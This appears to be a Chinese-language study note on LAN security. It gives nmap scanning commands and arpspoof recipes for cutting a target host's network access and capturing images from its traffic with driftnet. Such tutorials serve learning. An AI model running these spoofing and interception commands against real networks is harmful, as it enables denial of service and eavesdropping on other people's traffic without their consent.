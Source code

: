 ## 无线网络安全, 网络扫描和ARP欺骗

- [无线网络安全, 网络扫描和ARP欺骗](#无线网络安全-网络扫描和arp欺骗)
  - [1.网络扫描和嗅探](#1网络扫描和嗅探)
  - [2.ARP欺骗](#2arp欺骗)
  - [2.1.断网攻击](#21断网攻击)
  - [2.2.图片捕获](#22图片捕获)

> !阅前须知!  
>> 本文是基于我很久以前学习网络基础时的笔记,  
>> 文中的工具可能已经过时, 或者使用方法已经改变了, 感兴趣可以自行深入查阅资料.  

```ps.本文环境在Kali下, 学习最好具备一点linux基础知识.```

### 1.网络扫描和嗅探

`NMap(Network Mapper)`, 一个很不错的网络扫描和嗅探工具包.  

```bash
# NMap真的很常用, 简直神器
# 列出几种简单的使用方法:

# ping扫描, 快速, 不过回显的内容有限
> nmap -sP (网关IP)/(子网掩码)

# SYN/半开放扫描, 加上-A回显详细信息
> nmap -sS [-A] (网关IP)/(子网掩码)

# 单个扫描, 显示详细内容
> nmap -A (目标IP)

# 示例
> nmap -sP 192.168.1.1/24
```

### 2.ARP欺骗

局域网中的`ARP欺骗`, 像`arpspoof`、`Ettercap`等工具都很不错.  
ARP欺骗之后其实可以很多动作的,  
这里就介绍下arpspoof的断网攻击和图片捕获.  

```bash
# 首先, 在局域网环境中配合NMap工具使用, 取得目标IP
> nmap -sP (网关IP)/(子网掩码)
```

### 2.1.断网攻击

```ps.修改ip_forward的值, 是为了开启IP转发, 其值为'0'时候则禁止转发, 目标主机断网.```

```bash
# 修改ip_forward(默认为'0')
# 可以提前cat查看一下, 若是回显'0', 则可以跳过本步
> echo 0 > /proc/sys/net/ipv4/ip_forward 

# 开始arp欺骗
> arpspoof -i (你的网卡名称) -t (目标IP) (网关IP)

# 使用目标主机上网测试, 观察命令行回显.
```

### 2.2.图片捕获

```bash
# 修改ip_forward(默认为'0')
# 可以提前cat查看一下, 若是回显'1', 则可以跳过本步
> echo 1 > /proc/sys/net/ipv4/ip_forward 

# 开始arp欺骗(本机网卡名, 可以用ifconfig来查看)
> arpspoof -i (本机网卡名) -t (目标IP) (网关IP)

# 另外再开一终端, 开始抓取图片
> drifnet -i (本机网卡名)

# 使用目标主机上网看图片, 观察弹出的窗口回显图片, 观察命令行回显.
```

> 常见的网络协议是网络安全中的基础, 能让你能够更快吸收了解技术细节.